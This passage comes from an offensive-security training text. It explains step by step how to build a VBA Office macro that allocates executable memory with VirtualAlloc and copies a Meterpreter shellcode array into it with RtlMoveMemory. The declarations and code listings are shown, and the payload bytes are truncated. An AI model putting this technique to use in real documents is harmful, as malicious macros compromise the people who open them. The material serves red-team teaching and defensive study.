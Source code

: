 We'll set the last argument to \&H40 (0x40), indicating that the memory is readable, writable, and executable.

Our complete _VirtualAlloc_ call is shown in Listing 20. Note that the Meterpreter array stored in _buf_ has been truncated for ease of display.

```
Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr

...

Dim buf As Variant
Dim addr As LongPtr

buf = Array(252,72,131,228,240,232...

addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)
```

> Listing 20 - Calling VirtualAlloc from VBA

Now that we've allocated memory with _VirtualAlloc_, we must copy the shellcode bytes into this memory location. This is done using the [_RtlMoveMemory_ function](https://docs.microsoft.com/en-us/windows/win32/devnotes/rtlmovememory). MSDN describes this function prototype as:

```
VOID RtlMoveMemory(
  VOID UNALIGNED *Destination,
  VOID UNALIGNED *Source,
  SIZE_T         Length
);
```

> Listing 21 - RtlMoveMemory function prototype

This function takes three variables. The return value along with the first argument may be translated to _LongPtr_, the second uses _Any_, while the last argument may be translated to _Long_.

The _Destination_ pointer points to the newly-allocated buffer, which is already a memory pointer, so we can pass it as-is. The _Source_ buffer will be the address of an element from the shellcode array, and must be passed by reference, while the _Length_ is passed by value.

```
Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr
```

> Listing 22 - Declare statement for RtlMoveMemory

We'll use this API to loop over each element of the shellcode array and create a byte-by-byte copy of our payload.

The loop condition uses the [_LBound_](https://docs.microsoft.com/en-us/office/vba/language/reference/user-interface-help/lbound-function) and _UBound_ methods to find the first and last element of the array. This is where our knowledge of _For_ loops helps. With that, let's import _RtlMoveMemory_, declare two long variables and copy our payload.
